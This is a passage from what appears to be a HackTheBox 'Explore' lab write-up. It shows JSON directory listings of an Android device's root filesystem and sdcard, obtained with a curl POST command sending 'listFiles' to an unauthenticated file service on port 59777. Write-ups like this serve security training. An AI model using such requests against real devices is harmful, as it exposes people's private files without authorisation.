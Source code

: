 ```json
{"name":"init.usb.configfs.rc", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"7.51 KB (7,690 Bytes)", }, 

{"name":"init.superuser.rc", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"582.00 Bytes (582 Bytes)", }, 

{"name":"init.rc", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"29.00 KB (29,697 Bytes)", }, 

{"name":"init.environ.rc", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"1.04 KB (1,064 Bytes)", }, 

{"name":"init.android_x86_64.rc", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"3.36 KB (3,439 Bytes)", }, 

{"name":"init", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", }, 

{"name":"fstab.android_x86_64", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"753.00 Bytes (753 Bytes)", }, 

{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 

{"name":"dev", "time":"6/26/21 09:31:21 PM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", }, 

{"name":"default.prop", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"1.09 KB (1,118 Bytes)", }, 

{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 

{"name":"d", "time":"6/26/21 09:31:19 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"config", "time":"6/26/21 09:31:20 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"cache", "time":"6/26/21 09:31:20 PM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", }, 

{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", }, 

{"name":"acct", "time":"6/26/21 09:31:19 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]
```
Looks likes it works now let's see the sdcard contents
```json
kali@kali:~/HackTheBox/Explore$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://explore.htb:59777/sdcard
[
{"name":"Android", "time":"3/13/21 05:16:50 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".estrongs", "time":"3/13/21 05:30:39 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Download", "time":"3/13/21 05:37:03 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dianxinos", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Notifications", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"DCIM", "time":"4/21/21 02:38:16 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
```